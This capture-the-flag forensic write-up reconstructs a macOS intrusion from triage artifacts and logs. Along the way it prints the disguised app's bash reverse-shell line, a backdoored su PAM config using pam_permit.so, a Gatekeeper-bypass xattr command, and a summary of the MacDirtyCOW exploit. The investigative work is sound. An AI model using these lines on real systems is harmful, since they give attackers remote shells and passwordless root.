# WRITE_UP #

## RUSE ##

### 1. Description ###
* **Given:** a directory named `ireks-Mac_20250308_160413`
* **Description:** An organization's macOS system was compromised after an attacker gained initial access through a disguised entity. The intrusion escalated privileges, established persistence, and enabled unauthorized remote access. You have been hired as a forensic analyst to examine the provided artifacts and reconstruct the attacker's actions.
* **Hints:**
    * No hint is given.
* **Difficulty:** Hard 

### 2. Investigation ###
#### First Analysis ####
Before diving into the forensic artifacts, we need to understand the nature of the evidence. Based on the directory naming convention (`<Hostname>_<YYYYMMDD>_<HHMMSS>`) and the presence of processed logs alongside raw directories, this artifact represents a **macOS Forensic Triage Collection**

Our collection comes from a host named **ireks-Mac**, captured on **March 8, 2025,** at **16:04:13**. Here is the breakdown of the evidence structure:





> * **Root Directory**:
>   * `ireks-Mac-Triage`: This is the main folder containing the collected macOS forensic artifacts.
>   * `Full_file_listing.txt`: List of all files present on the target system.
>   * `ireks-Mac_20250308_160413_File_Hashes.txt`: Cryptographic hashes of collected files to verify data integrity.
>   * `ireks-Mac_20250308_160413_Processing_Details.txt`: Execution logs generated by the triage tool during collection.
> * Inside **ireks-Mac-Triage**:
>   * `fsevents`: File System Events logs. Tracks file creation, modification, and deletion over time.  
>   * `Library`: System-wide settings and application data. A common location for malware persistence (e.g., LaunchDaemons).
>   * `private`: Contains core,hidden macOS directories like `/etc` (configs), `/var` (logs), and `/tmp` (temporary files).
>   * `spotlight`: Spotlight search index data. Useful for finding what the user searched for and accessed.
>   * `System`: Core macOS operating system files and binaries.
>   * `UnifiedLogs`: The modern macOS Unified Logging system. Crucial for analyzing system, application, and security events.
>   * `Users`: User profiles. Contains personal documents, browser history, downloads, terminal history, and user-level persistence (~/Library).

Inside the `Users` directory are `Deleted User` and `irek`, both provide useful information for investigating:



After some first investigations, I open the given folder using `FTK Imager` to start answering questions:



#### Task 1: ####
```text
What is the version of the MacOS system?
```

To find the exact macOS version of the compromised system, we need to inspect the core system property list file located at:

```text
ireks-Mac-Triage/System/Library/CoreServices/SystemVersion.plist
```

 

Based on the `ProductVersion` key inside the file, we can confirm the OS version, which is `13.0`.

So the answer is: `13.0`

#### Task 2 ####
```text
What is the name of the malicious entity responsible for the initial access?
```

The question ask for the **initial entity**, so it's likely to appear in one of the user directory. Since one is deleted, I first analyze `irek`. 

Inside `irek/.Trash`, I found several files named `Scientific-Calculator.app`, all of its `.gz`, `.zip`, and the unzip archive itself here:



Moreover, in `irek/Library/Safari`, where accounts for all Safari events, I found 2 files: `Downloads.plist` and `History.db`:

> `History.db`: A SQLite database that records the user's complete web browsing history in Safari.
> `Downloads.plist`: A file that tracks all file download activities initiated via Safari.



With the database, I load it to `DB Browser for SQLite`, I filter the `history_visit` Table and see the same `Scientific-Calculator.app` file downloaded from Google Drive, below, the victim also acknowledged that they were hacked and tried to delete an username: 





With the `Downloads.pslist`, I use a tool named `plistutil` on WSL to review its content for double-check:

```bash
plistutil -i ireks-Mac_20250308_160413/ireks-Mac-Triage/Users/irek/Library/Safari/Downloads.plist
```





All roads lead to the culprit themselves, by the way, the payload of this malware could be seen in `Scientific-Calculator.app/Contents/macOS/Scientific-Calculator`:



```bash
#!/bin/bash
/bin/bash -l > /dev/tcp/192.168.1.2/4242 0<&1 2>&1
```

So the answer is: `Scientific-Calculator.app`.

#### Task 3 ####
```text
When did the user first initiate the download of that malicious entity (UTC)?
```

The command `plistutil` also revealed a key named `DownloadEntryDateAddedKey` which handles the time when the system starting downloading time of a entity, these are some important keys when download a file from the Internet saved in `Downloads.pslist`:
> * `<key>DownloadEntryPath</key>`: The absolute file path where the downloaded item is saved on the local disk
> * `<key>DownloadEntryDateAddedKey</key>`: The exact timestamp when the download entry was initiated and added to the queue (UTC)
> * `<key>DownloadEntryProgressBytesSoFar</key>`: The total number of bytes successfully downloaded before the process completed or stopped
> * `<key>DownloadEntryURL</key>`: The direct source URL from which the file was downloaded.
> * `<key>DownloadEntryQuarantineProperties</key>`: A dictionary containing security metadata used by macOS Gatekeeper, including the originating URL, referrer URL, and the specific application responsible for the download.

By the way, the answer for the question is: `2025-03-07 21:11:56`. 

#### Task 4 ####
```text
What was the timestamp (UTC) of the user's most recent interaction with the malicious file?
```
This question is the starting point of a list of the trickiest questions in this Sherlock challenge. To make it clear, the question only asks `most recent interaction`, not any specific action such as `delete`, `run`, `move`, ... so the investigation's range is such a wide one, which makes it harder to find out the solution.

At first, I went down several false paths. My initial thought was that the answer should still come from `Downloads.plist`, because it already gave the exact timestamps for the first and second downloads. That line of thinking quickly became weak, since `downloaded` does not necessarily mean interact.

The second false lead was `History.db`, where I could clearly see the victim revisiting the Google Drive page. However, those timestamps only proved that the page was opened again, not that the malicious app itself was touched afterward.

I also checked artifacts such as quarantine events and recently used application traces, but those either pointed to the download/first-open stage or did not provide a clean enough timestamp to confidently call it the final interaction. So, after ruling those out, I shifted the focus to actual execution traces instead.

After checking multiple artifacts such as Safari history, quarantine events, and recent applications, the most reliable trace turned out to be the `launchd` execution log:

> `var/log/com.apple.xpc.launchd/launchd.log`: is the log file for launchd, which is macOS's process manager and init system.
>  It records many types of highly valuable forensic events, such as:
>  * which processes were spawned
>  * which services were enabled, disabled, or bootstrapped
>  * which user sessions were created
>  * which applications were launched through launchd or xpcproxy
>  * which daemons or agents crashed, exited, or restarted
>  * events related to LaunchDaemons, LaunchAgents, and XPC services
> 
>  * It's useful because many actions on macOS do not appear directly in shell history, but they still have to pass through `launchd`, so activities often leave traces here:
>      * opening an app
>      * enabling SSH
>      * spawning systemsetup
>      * running sysadminctl
>      * creating user/502
>      * launching persistence
>  
>  * A quick walkthrough to understand it:
>      * `(pid/1111 [sysadminctl]) <Notice>`: created means the sysadminctl process was just created
>      * `(system) <Notice>`: Enabling service com.openssh.sshd means the SSH service is being enabled
>      * `(user/502) <Notice>`: created means the bootstrap domain for user UID 502 was just created, usually associated with user creation or user logon
>      * `Bootstrap by launchctl ... succeeded`: means the service was successfully loaded
>      * `Successfully spawned X because ...`: means the process or service X was actually launched successfully



In this triage, I find 3 logs, however, after cross-referencing with the timeline in previous artifacts, the most valuable one is:

```text
ireks-Mac-Triage/private/var/log/com.apple.xpc.launchd/launchd.log.2
```

I found the latest successful spawn event for `Scientific-Calculator`, which indicates the last time the malicious application was actually interacted with by the user:



The most recent relevant line shows the app being launched at `2025-03-07 23:14:37` local time. However, when I submitted, it did fail, why's that?

This happens because of the difference of timezone between the triage and the question. `private/var/localtime` and `private/etc/log/install.log` reveals the true timezone of the triage, which is `UTC+2`:





Since the machine was running in `UTC+2`, the converted UTC timestamp is:

`2025-03-07 21:14:37`

So the answer is: `2025-03-07 21:14:37`

#### Task 5 ####
```text
The attacker used a tool to drop files and bypass Gatekeeper. What is the name of the tool used for this technique?
```

This is another tricky question (for me).

(*Note: OSINT skill needed*)

> **Gatekeeper:** A built-in security mechanism that enforces application whitelisting and code-signing verification. Gatekeeper intercepts the first-time execution of downloaded binaries. It validates their cryptographic signatures and Apple Notarization status to ensure the software originates from a trusted developer and has not been altered.

Normally, Gatekeeper can be bypassed by the terminal command:

```bash
xattr -dr com.apple.quarantine /path/to/Application.app
```

However, when I found all evidences in `Users/irek/.zsh_sessions`, where save the command history of user `irek`, there are none helpful information:



So I decided to realize a small research on the Internet, after scrolling a bit, I found [this article](https://unit42.paloaltonetworks.com/gatekeeper-bypass-macos/):



The article shows detailed information about how some tools fail to apply the `com.apple.quarantine` attribute to extracted or downloaded files, allowing untrusted binaries to completely bypass Gatekeeper. Inside, there's a part catch my eye:



It shows that some unix based tools used to download third-party applications cannot be marked as quarantined by Gatekeeper, including `curl` - a tool can be used to download any payloads directly via the terminal. 

Therefore, the answer is: `curl`.

#### Task 6 ####
```text
What is the full file path of the Mach-O executable crafted by the attacker for privilege escalation?
```

Back in `irek/.Trash`, I found a suspicious executable named `expooo` alongside `overwrite_file.bin`, `race.zip`, and `switch_race.c` which strongly indicates these are tools for a chain of privilege escalation, and the `expooo` is a Mach-O binary:



*(Note: `/Users/irek/.Trash/expooo` was not the answer here)*

The chain was quite clear:
1. Through the reverse shell established by initial payload `Scientic-Calculator`, the attakers abused `curl` to download a `race.zip` file from their server.
2. After extracting the achive, they obtained `switch_race.c` and compiled it to craft the final Mach-O executable `expooo`.



Uploading the `expooo` binary to [VirusTotal](https://www.virustotal.com/), I could put all puzzles together to complete the picture:



The CVE exploited is `CVE-2022-46689`, the uploaded `switch_race.c` source code is a local privilege escalation exploit leveraging the `MacDirtyCOW` vulnerability. There's a available MacDirtyCOW [PoC](https://github.com/zhuowei/MacDirtyCowDemo) that matches with our case here:



> * **How it works:** The binary `expooo` accepts two arguments: a target system file to overwrite and an exploit payload. It initiates a race condition by spawning a secondary thread `switcheroo_thread` that toggles a specific memory mapping `ctx->e0` between Read-Only (RO) and Read-Write (RW) permissions every 100 microseconds using `vm_map`. Simultaneously, the main thread triggers `vm_read_overwrite`. This forces the XNU kernel to write the attacker's payload directly into the target file's page cache before the Copy-on-Write (COW) mechanism can safely isolate the memory, resulting in an unauthorized permanent file overwrite on the disk to obtain root privileges.

The picture is brighter, now how can we find the first absolute path of `expooo`? 

I marked that this user `irek` only has 5 folders: `.Trash`, `.zsh_sessions`, `Desktop`, `Documents`, `Library`. Here I only suspected `Desktop`, `Documents`, and `Library`, since the others are not common places for attackers to exploit.

However, 2 of them `Desktop` and `Documents` (even `Downloads` if it appears) have a secure mechanism named **TCC** (Transparency, Consent, and Control). This mechanism will check if a file has `kTCCServiceSystemPolicy<Folder_Name>Folder` permission, which allows the file to read/write in that folder. Since we all know `expooo` is crafted then ran to escalate privileges, the system may spawn a log record to check its permission in `TCC.db`:

```text
ireks-Mac_20250308_160413/ireks-Mac-Triage/Users/irek/Library/Application Support/com.apple.TCC/TCC.db
```

I used `DBrowser for SQLite` to open the database, and in the very end row, our hypothesis is checked:



So the answer is: `/Users/irek/Desktop/expooo`

#### Task 7 ####
```text
What is the CVE number associated with the exploit leveraged by the attacker?
```

I acidentally found the answer in the previous question.

So the answer is: `CVE-2022-46689`

#### Task 8 ####
```text
During the privilege escalation phase, the attacker mimicked the use of a well-known system file by altering a specific word in its configuration, enabling them to gain a root shell. Based on the comparison between the original file and the modified file, what is the specific word that was changed to facilitate this exploit?
```

As the PoC indicates, this malicious payload `overwrite_file.bin` is used by `expooo` to inject an original system file:

```bash
# su: auth account session
auth       sufficient     pam_permit.so 
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
``` 
 
This contains a modified version of the PAM (Pluggable Authentication Modules) configuration for `su`. Comparing the original system file against the malicious replacement shows that the attacker replaced the usual PAM module reference with a more weak one:





* original behavior: `pam_rootok.so`
* modified behavior: `pam_permit.so`

With `permit`, the attacker instructed the system to grant authentication success to anyone running `su`, without asking for password.

So the answer is: `permit`

#### Task 9 & Task 18 ####
```text
After gaining root privilege, the attacker created a new user, when did he create that user (UTC)?

The legitimate user noticed and deleted the unauthorized account created by the attacker. When did the user initiate the deletion of the attacker-created account (UTC)?
```

As I mentioned above, to create a new user via terminal, the attackers often use `sysadminctl`, which will be supervised by one of the `launchd.log`. In this case, after getting root, the same thing happened. So the most useful artifact again is:

```text
ireks-Mac-Triage/private/var/log/com.apple.xpc.launchd/launchd.log.2
```

Inside this file, I found the `sysadminctl` process being created at around `2025-03-07 23:27:57`, in UTC, this means `2025-03-07 21:27:57`, however this is not the answer.



So now we need another stronger artifact to prove the existence of the new user created by the attacker. And what can be stronger than that user directory itself, the `Deleted-User` one:



Inside, there's only one artifact left: `loki.dmg`. This happens since the victim acknowledged his machine has been hacked and he tried to delete the suspicious user (in Task 2 I mentioned this information).

> `.dmg` file (Apple Disk Image): a digital container used primarily by the macOS operating system, it's functionally similar to an `.iso` file on Windows.
> `.dmg` created in 4 circumstances: 
>   1. Cloning/Backup-ing a disk/ directory.
>   2. Encrypted information
>   3. Created by developpers to distribute application
>   4. Delete an user (our case)

This file metadata and contents can be read by `7z l`:

```bash
7z l ireks-Mac_20250308_160413/ireks-Mac-Triage/Users/Deleted-Users/loki.dmg
```





The discrepancy between `sysadminctl` process in launchd log and metadata of `loki.dmg` can be comprehended that the attackers actually finish their bash command using `sysadminctl` to create another account at `21:27:57`. However, the system needs to boot up others process before really creating the new user directory, and only until `21:28:01` that `loki` is finished creating.

So the answer is: `2025-03-07 21:28:01` for Task 9 and `2025-03-08 07:58:55` for Task 18

#### Task 10 ####
```text
At what point did the attacker successfully enable SSH on the system (UTC)?
```

To answer this, I stayed with the same `launchd` log because enabling SSH on macOS eventually results in `com.openssh.sshd` being loaded as a service.

Within `launchd.log.2`, I found the following successful enable event:

* `Enabling service com.openssh.sshd`
* `Bootstrap by launchctl ... /System/Library/LaunchDaemons/ssh.plist succeeded`



This happened at `2025-03-07 23:36:14` local time, which converts to:

`2025-03-07 21:36:14 UTC`

So the answer is: `2025-03-07 21:36:14`

#### Task 11 ####
```text
The user noticed unusual activity on his laptop. After monitoring the situation for a period of time, he proceeded to shut down the device. A day after, he turned on his laptop. At what time (UTC) did he turn on his laptop?
```

To identify when the victim turned the system back on, I used another log:

```text
ireks-Mac-Triage/private/var/log/system.log
```

This log begins with the normal system service bootstrap that happens after the host starts again on the next day. By correlating the boot entries and the first user activity, the boot-up time is: `2025-03-08 07:51:38 UTC`



So the answer is: `2025-03-08 07:51:38`

#### Task 12 ####
```text
After enabling SSH on the system, the attacker successfully established an SSH connection when the user turned on their machine. Based on the timeline of events, at what specific time (UTC) did the attacker establish the SSH connection to the system?
```

This one can be answered by correlating the victim's boot time with `system.log`, where SSH sessions are recorded. Still in:

```text
ireks-Mac-Triage/private/var/log/system.log
```

I found the `sshd` login event for the attacker-created account `loki`:



That login occurred at `09:54:48` local time on March 8, 2025. With the same `UTC+2` offset, the UTC timestamp is: `2025-03-08 07:54:48`

So the answer is: `2025-03-08 07:54:48`

#### Task 13 & Task 17 ####
```text
The attacker downloaded and dropped a malicious file onto the system to establish persistence. What is the name of this malicious file?

Based on the analysis of the malicious file and its persistence mechanism, what is the most prevalent malware family associated with this attack?
```

After the SSH access was established, the attacker dropped a new persistence payload under the newly created user profile. So I again used `7z l` to check if there's any suspicious file in the `loki` user:



As we can see, there'a a very suspicious file named `b4ckd00r` created during the time SSH enabled on the victim's machine. So I tried to reconstruct this `loki` user's data by using `7z x`:

```bash
7z x ireks-Mac_20250308_160413/ireks-Mac-Triage/Users/Deleted-Users/loki.dmg -o"loki_restruction"
```



After running the command, I obtained the restructed folder:



The suspicious file lies in `Desktop/b4ckd00r`, I used strings, some strings highly recommend that `b4ckd00r` is actually a C2 malware:





Uploading the file to [VirusTotal](https://www.virustotal.com/), I even identified some information about the type, the mechanism of this malware:





Some information about the malware:
  * Malware family: `Demsty`
  * It establishes persistence by creating LaunchDaemon/LaunchAgent plist file
  * Executing commands received from a C2 server

So the answer is: `b4ckd00r` for Task 13 and `Demsty` for Task 17

#### Task 14 ####
```text
The malicious file created a specific file to ensure the malware runs every time the user logs into the system. What is the name of this file?
```

As the information provided by `VirusTotal`, this type of malware often creating fake `LaunchDaemon`/`LaunchAgent` plist file. By examining the user folder, I found the malicious LaunchAgent:

`com.appule.sysetmd.plist`

The typo in the name `appule` and `sysetmd` is the masquerading technology as `apple` and `systemd` (macOS uses `launchd` not `systemd` like Linux btw).

So the answer is: `com.appule.sysetmd.plist`

#### Task 15 ####
```text
The file points to an executable that runs upon user login. What is the full path of this executable file?
```
Using `strings` on the file, in `<key>ProgramArguments</key>`, it points to the binary `/Users/loki/.local/bin/sysetmd`:

```bash
strings loki_restruction/Library/LaunchAgents/com.appule.sysetmd.plist
```



So the answer is: `/Users/loki/.local/bin/sysetmd`

#### Task 16 ####
```text
What is the MITRE ATT&CK technique ID associated with the persistence mechanism used by the attacker?
```

Because the attacker used a `.plist` to make the payload run automatically at user logon, the mapped MITRE ATT&CK persistence technique is: `T1543`, since the folder we found the payload is `LauchAgents`, this should be `T1543.001` - **Create or Modify System Process: Launch Agent**:





So the answer is: `T1543.001`

### 3. Questions and Answers ###

<table style="width: 100%; border-collapse: collapse; color: #ffffff; background-color: #1e1e1e; font-family: sans-serif;">
  <thead>
    <tr style="background-color: #333333;">
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 5%;">Task</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 55%;">Question</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 40%;">Answer</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">1</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the version of the MacOS system?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">13.0</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the name of the malicious entity responsible for the initial access?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Scientific-Calculator.app</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">3</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">When did the user first initiate the download of that malicious entity (UTC)?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-07 21:11:56</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">4</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What was the timestamp (UTC) of the user's most recent interaction with the malicious file?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-07 21:14:37</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">5</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker used a tool to drop files and bypass Gatekeeper. What is the name of the tool used for this technique?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">curl</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">6</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the full file path of the Mach-O executable crafted by the attacker for privilege escalation?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">/Users/irek/Desktop/expooo</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">7</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the CVE number associated with the exploit leveraged by the attacker?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">CVE-2022-46689</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">8</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">During the privilege escalation phase, the attacker mimicked the use of a well-known system file by altering a specific word in its configuration, enabling them to gain a root shell. Based on the comparison between the original file and the modified file, what is the specific word that was changed to facilitate this exploit?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">permit</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">9</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">After gaining root privilege, the attacker created a new user, when did he create that user (UTC)?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-07 21:28:01</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">10</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">At what point did the attacker successfully enable SSH on the system (UTC)?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-07 21:36:14</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">11</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The user noticed unusual activity on his laptop. After monitoring the situation for a period of time, he proceeded to shut down the device. A day after, he turned on his laptop. At what time (UTC) did he turn on his laptop?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-08 07:51:38</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">12</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">After enabling SSH on the system, the attacker successfully established an SSH connection when the user turned on their machine. Based on the timeline of events, at what specific time (UTC) did the attacker establish the SSH connection to the system?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-08 07:54:48</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">13</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker downloaded and dropped a malicious file onto the system to establish persistence. What is the name of this malicious file?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">b4ckd00r</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">14</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The malicious file created a specific file to ensure the malware runs every time the user logs into the system. What is the name of this file?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">com.appule.sysetmd.plist</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">15</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The file points to an executable that runs upon user login. What is the full path of this executable file?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">/Users/loki/.local/bin/sysetmd</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">16</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">What is the MITRE ATT&CK technique ID associated with the persistence mechanism used by the attacker?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1543.001</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">17</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">Based on the analysis of the malicious file and its persistence mechanism, what is the most prevalent malware family associated with this attack?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Demsty</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">18</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The legitimate user noticed and deleted the unauthorized account created by the attacker. When did the user initiate the deletion of the attacker-created account (UTC)?</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">2025-03-08 07:58:55</td>
    </tr>
  </tbody>
</table>

### 4. Attack chain ###


```mermaid
flowchart TD
    %% Đổi toàn bộ chữ sang màu đen (#000000) và dùng màu nền Pastel để chống lỗi hiển thị
    classDef red fill:#ff7675,stroke:#2d3436,stroke-width:2px,color:#000000,font-weight:bold;
    classDef orange fill:#ffb142,stroke:#2d3436,stroke-width:2px,color:#000000,font-weight:bold;
    classDef yellow fill:#ffeaa7,stroke:#2d3436,stroke-width:2px,color:#000000,font-weight:bold;
    classDef green fill:#55efc4,stroke:#2d3436,stroke-width:2px,color:#000000,font-weight:bold;
    classDef root fill:#ff4757,stroke:#000000,stroke-width:4px,color:#000000,font-weight:bold;

    subgraph Phase1 ["Phase 1: Initial Access & Execution"]
        A["Victim executes<br/>Scientific-Calculator.app"]:::green --> B["Triggers Bash<br/>Reverse Shell"]:::green
    end

    subgraph Phase2 ["Phase 2: Defense Evasion & Tool Transfer"]
        B --> C["Uses 'curl' to download<br/>'race.zip' from C2<br/>Bypasses Gatekeeper"]:::yellow
        C --> D["Extracts & Compiles<br/>switch_race.c"]:::yellow
        D --> E["Crafts Mach-O executable:<br/>expooo at Desktop"]:::yellow
    end

    subgraph Phase3 ["Phase 3: Privilege Escalation"]
        E --> F["Exploits MacDirtyCOW<br/>CVE-2022-46689<br/>via Race Condition"]:::orange
        F --> G["Overwrites 'su' PAM config:<br/>pam_rootok.so -> pam_permit.so"]:::orange
        G --> H((("OBTAINS ROOT<br/>PRIVILEGES"))):::root
    end

    subgraph Phase4 ["Phase 4: Persistence & Command and Control"]
        H --> I["Uses sysadminctl to create<br/>backdoor user 'loki'"]:::red
        H --> J["Enables SSH service<br/>com.openssh.sshd"]:::red
        I -.-> K
        J -.-> K["Attacker logs in via<br/>SSH using 'loki'"]:::red
        K --> L["Drops 'b4ckdoor' payload<br/>(Demsty malware family)"]:::red
        L --> M["Creates masqueraded LaunchAgent:<br/>com.appule.sysetmd.plist<br/>Points to:<br/>/Users/loki/.local/bin/sysetmd"]:::red
        L --> P["Establishes C2 connection<br/>Awaiting remote instructions"]:::red
    end

    subgraph Phase5 ["Phase 5: Post-Incident"]
        P --> N["Victim detects anomaly &<br/>deletes 'loki' user"]:::green
        M --> N
        N --> O["System automatically<br/>generates loki.dmg"]:::green
    end
```

### 5. MITRE ATT&CK Mapping ####

<table style="width: 100%; border-collapse: collapse; color: #ffffff; background-color: #1e1e1e; font-family: sans-serif;">
  <thead>
    <tr style="background-color: #333333;">
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 15%;">Tactic</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 25%;">Technique</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 10%;">ID</th>
      <th style="border: 1px solid #444444; padding: 10px; text-align: center; width: 50%;">Evidence from Investigation</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Execution</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">User Execution: Malicious File</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1204.002</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The victim downloaded and interacted with the malicious Scientific-Calculator.app.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Execution</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Command and Scripting Interpreter: Unix Shell</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1059.004</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The initial payload executed a bash reverse shell via /bin/bash -l &gt; /dev/tcp/192.168.1.2/4242 0&lt;&amp;1 2&gt;&amp;1.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Defense Evasion</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Subvert Trust Controls: Gatekeeper Bypass</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1553.001</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker used curl to download tools, as it fails to apply the com.apple.quarantine attribute required by Gatekeeper.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Command and Control</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Ingress Tool Transfer</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1105</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker abused curl to download race.zip (containing the MacDirtyCOW exploit) from their C2 server.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Privilege Escalation</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Exploitation for Privilege Escalation</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1068</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker crafted and ran expooo to exploit the MacDirtyCOW vulnerability (CVE-2022-46689) and overwrite the PAM configuration.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Persistence</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Create Account: Local Account</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1136.001</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">After gaining root privileges, the attacker created a new backdoor user named loki via the sysadminctl command.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Lateral Movement</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Remote Services: SSH</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1021.004</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker enabled the com.openssh.sshd service and successfully established an SSH connection to the machine.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Persistence</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Create or Modify System Process: Launch Agent</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1543.001</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker dropped the malicious LaunchAgent com.appule.sysetmd.plist to run the b4ckdoor malware upon user login.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Defense Evasion</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Masquerading: Match Legitimate Name or Location</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1036.005</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker used typosquatting names like appule (Apple) and sysetmd (systemd) for the LaunchAgent to hide in plain sight.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Credential Access / Defense Evasion</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Modify Authentication Process: Pluggable Authentication Modules</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">T1556.003</td>
      <td style="border: 1px solid #444444; padding: 10px; text-align: left;">The attacker modified the macOS PAM configuration file for 'su' (replacing 'pam_rootok.so' with 'pam_permit.so') to bypass password verification and gain a root shell.</td>
    </tr>
    <tr>
      <td style="border: 1px solid #444444; padding: 10px; text-align: center;">Persistence / Privilege Escalation</td>
